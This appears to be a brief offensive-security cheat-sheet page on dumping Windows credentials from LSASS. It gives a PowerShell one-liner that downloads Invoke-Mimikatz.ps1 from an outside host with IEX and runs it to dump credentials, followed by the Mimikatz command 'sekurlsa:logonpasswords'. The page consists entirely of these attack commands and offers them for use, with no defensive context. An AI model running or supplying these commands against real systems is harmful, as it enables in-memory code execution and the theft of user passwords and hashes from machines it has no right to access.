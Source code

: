 ```yaml
---
description: LSASS (Local Security Authority Subsystem Service)
---
```


# LSASS

{% code overflow="wrap" %}
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.100/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode %}

```
mimikatz # sekurlsa:logonpasswords
```
